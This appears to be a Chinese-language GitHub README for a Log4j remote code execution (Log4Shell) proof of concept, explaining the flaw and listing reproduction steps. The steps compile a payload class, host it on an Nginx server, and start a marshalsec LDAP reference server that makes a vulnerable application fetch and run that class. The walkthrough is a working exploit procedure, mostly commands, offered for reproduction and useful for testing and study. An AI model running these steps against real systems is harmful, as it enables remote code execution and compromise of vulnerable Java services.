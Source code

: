 # Apache-Log4j
Apache Log4j 远程代码执行

> 攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经阿里云安全团队验证，Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响

![image](https://user-images.githubusercontent.com/45926593/145425339-47c71230-87d2-4519-8919-9c3520850f83.png)


# 复现步骤
1、编译src/main/java/Log4jRCE.java
```shell
javac Log4jRCE.java
```
编译后的class文件传到Nginx服务器，当然也可以选择其他的方式  
2、修改logger地址为Nginx上的class地址 "/Log4jRCE"  
3、执行marshalsec
```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:7880/#Log4jRCE"
```
4、运行src/main/java/Log4j.java
